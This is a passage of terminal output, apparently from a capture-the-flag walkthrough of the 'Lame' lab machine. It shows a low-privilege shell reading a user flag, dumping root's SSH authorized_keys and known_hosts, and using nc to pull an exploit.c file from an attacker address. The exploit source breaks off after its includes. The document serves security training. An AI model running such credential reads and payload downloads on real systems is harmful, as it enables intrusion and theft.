 cd service
daemon@lame:/home/service$ ls -Al
ls -Al
total 12
-rw-r--r-- 1 service service  220 Apr 16  2010 .bash_logout
-rw-r--r-- 1 service service 2928 Apr 16  2010 .bashrc
-rw-r--r-- 1 service service  586 Apr 16  2010 .profile
daemon@lame:/home/service$ cd ..
cd ..
daemon@lame:/home$ ls
ls
ftp  makis  service  user
daemon@lame:/home$ cd makis
cd makis
daemon@lame:/home/makis$ ls
ls
user.txt
daemon@lame:/home/makis$ cat user.txt
cat user.txt
69454a937d94f5f0225ea00acd2e84c5
daemon@lame:/home/makis$

daemon@lame:/$ cat /root/.ssh/authorized_keys
cat /root/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== msfadmin@metasploitable
daemon@lame:/$ ls /root/.ssh/
ls /root/.ssh/
authorized_keys  known_hosts
daemon@lame:/$ cat /root/.ssh/known_hosts
cat /root/.ssh/known_hosts
|1|gS7DWzAxRvtufzEYnaW40GOvYu0=|5afWvF6s4R5Yaog0mimuOyNfXiI= ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAstqnuFMBOZvO3WTEjP4TUdjgWkIVNdTq6kboEDjteOfc65TlI7sRvQBwqAhQjeeyyIk8T55gMDkOD0akSlSXvLDcmcdYfxeIF0ZSuT+nkRhij7XSSA/Oc5QSk3sJ/SInfb78e3anbRHpmkJcVgETJ5WhKObUNf1AKZW++4Xlc63M4KI5cjvMMIPEVOyR3AKmI78Fo3HJjYucg87JjLeC66I7+dlEYX6zT8i1XYwa/L1vZ3qSJISGVu8kRPikMv/cNSvki4j+qDYyZ2E5497W87+Ed46/8P42LNGoOV8OcX/ro6pAcbEPUdUEfkJrqi2YXbhvwIJ0gFMb6wfe5cnQew==
daemon@lame:/$

daemon@lame:/tmp$ nc 10.10.14.17 80 > exploit.c
nc 10.10.14.17 80 > exploit.c
daemon@lame:/tmp$ ls
ls
5144.jsvc_up  exploit.c
daemon@lame:/tmp$ cat exploit.c
cat exploit.c
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>
